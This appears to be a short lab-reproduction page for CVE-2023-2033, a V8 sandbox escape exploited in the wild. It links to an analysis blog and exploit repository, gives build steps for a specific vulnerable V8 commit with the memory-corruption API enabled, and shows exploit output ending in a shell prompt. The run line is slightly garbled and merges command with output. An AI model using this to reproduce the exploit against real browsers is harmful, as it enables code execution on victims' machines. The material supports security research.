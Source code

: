 CVE-2023–2033

A Deep Dive into V8 Sandbox Escape Technique Used in In-The-Wild Exploit https://blog.theori.io/a-deep-dive-into-v8-sandbox-escape-technique-used-in-in-the-wild-exploit-d5dcf30681d4

Javascript exploit code: https://github.com/theori-io/v8-sbx-bypass-wasm/tree/main

v8 build instructions: https://chromium.googlesource.com/external/github.com/v8/v8.wiki/+/8c0be5e888bda68437f15e2ea9e317fd6229a5e3/Building-with-GN.md

system prep

        sudo apt update
        sudo apt -y upgrade
        sudo apt -y install git build-essential pkg-config

get google tools

        git clone https://chromium.googlesource.com/chromium/tools/depot_tools.git
        export PATH=~/depot_tools:$PATH

get source

        cd ~
        fetch v8
        mv v8 v8-11-4-0
        cd v8-11-4-0
        git checkout f7a3499f6d7e50b227a17d2bbd96e4b59a261d3c
        gclient sync
        cd v8/src

configure for build

        gn args out/x64.release
        
                is_component_build = false
                is_debug = false
                target_cpu = "x64"
                v8_enable_sandbox = true
                use_goma = false
                v8_enable_backtrace = true
                v8_enable_disassembler = true
                v8_enable_object_print = true
                v8_enable_verify_heap = true
                dcheck_always_on = false
                v8_expose_memory_corruption_api = true

build

        autoninja -C out/x64.release

Run

        ~/v8-11-4-0/out/x64-release/d8 e[+] instance_addr = 0x19c3d8

Result gives you a shell

                [+] tbl_addr = 0x4dc04
                [+] exported_func_addr = 0x19c55c
                [+] imported_function_targets = 0x4def1
                [+] rwx = 0x39e47ef46700
                [+] indirect_function_tables = 0x4df4d
                [+] indirect_function_table = 0x4df69
                $ 




        
